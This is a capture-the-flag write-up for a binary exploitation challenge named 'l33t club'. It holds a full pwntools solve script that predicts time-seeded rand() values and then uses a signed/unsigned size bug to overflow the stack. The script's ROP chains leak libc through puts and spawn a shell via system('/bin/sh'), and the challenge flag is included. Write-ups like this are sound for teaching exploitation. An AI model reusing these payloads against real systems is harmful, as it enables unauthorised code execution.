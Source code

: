 # l33t club

**`Author:`** [LaidMalik](https://github.com/malikDaCoda)

## Description

> Pssst.. Have you heard of the l33t club? I heard they welcome anyone who can prove themself...  

## Write-up

### Brief Summary

- **Stage 1 (random number prediction)** : the random numbers are generated using a predictable seed `srand(time(NULL))`, we can generate the same set using the python C API for executing libc functions
- **Stage 2 (buffer overflow)** : When sending `size < 0`, it passes the bounds check and enables writing a large number of bytes to the buffer because `read_str` accepts an `unsigned int` as a size parameter, which results in a stack buffer overflow.

### TODO

### Solve script

```python
#!/usr/bin/env python3
from pwn import *
import ctypes

elf = ELF("./challenge/l33t-club")
remote_libc = ELF("./libc-2.27.so")

HOST, PORT = "localhost", 1337

context.binary = elf
context.terminal = ["tmux", "splitw", "-h", "-p", "75"] # for debugging with gdb
context.timeout = 5 # 5 seconds of timeout for blocking operations like recv

def main():
    global io, libc, libc_funcs
    pad = 0x40
    elfrop = ROP(elf)
    pop_rdi = elfrop.find_gadget(["pop rdi", "ret"]).address
    ret = elfrop.find_gadget(["ret"]).address

    io = conn()

    libc_funcs = ctypes.cdll.LoadLibrary(libc.path)

    # Stage 1 (predict random numbers)

    # vulnerability:
    # the random numbers are generated using a predictable
    # seed (srand(time(NULL))), we can generate the same set
    # using the python C API for executing libc functions

    libc_funcs.srand(libc_funcs.time(0))
    for i in range(5):
        guess = predict_num()
        log.info(f"Guess {i} : {guess}")
        io.sendafter("> ", f"{guess}")

    # Stage 2 (l33t function)

    # vulnerability:
    # when sending size < 0, it passes the bounds check
    # and enables writing a large number of bytes to the buffer
    # because read_str accepts an unsigned int as a size parameter,
    # which results in a stack buffer overflow

    # leak libc pointer

    io.sendafter("Enter size: ", "-1")
    payload = flat(
        b'A'*(pad+8), # reach padding + fake BP (base pointer)
        pop_rdi,
        elf.got.printf,
        elf.plt.puts, # call: puts printf@got
        elf.sym.l33t # return address
    )
    io.sendafter("Enter name: ", payload)

    io.recvline()
    leak = u64(io.recvline().rstrip().ljust(8, b"\x00"))
    log.info(f"libc leak: 0x{leak:x}")
    libc.address = leak - libc.sym.printf
    log.info(f"libc base: 0x{libc.address:x}")

    # pop a shell

    io.sendafter("Enter size: ", "-1")
    payload = flat(
        b'A'*(pad+8),
        pop_rdi,
        next(libc.search(b"/bin/sh\x00")),
        ret, # for stack alignment
        libc.sym.system # call: system @"/bin/sh\x00"
    )
    io.sendafter("Enter name: ", payload)

    io.interactive()

def predict_num():
    min_ = random_num(0x0, 0x1337)
    max_ = min_ + random_num(0x0, 0x1337)
    return random_num(min_, max_)

def random_num(min_, max_):
    a = min_ + libc_funcs.rand() % (max_+1 - min_)
    b = min_ + libc_funcs.rand() % (max_+1 - min_)
    num = (a ^ b) % (max_+1)
    libc_funcs.srand(num)
    return num

def conn():
    global libc
    gdbscript = '''
    '''
    if args.REMOTE:
        libc = remote_libc
        return remote(HOST, PORT)
    else:
        libc = elf.libc
        p = process([elf.path])
        if args.GDB:
            gdb.attach(p, gdbscript=gdbscript)
        return p

if __name__ == "__main__":
    io = None
    libc = None
    try:
        main()
    finally:
        if io:
            io.close()
```

### Flag

`shellmates{too_l1ttl3_for_u5_to_h4ndl3!}`
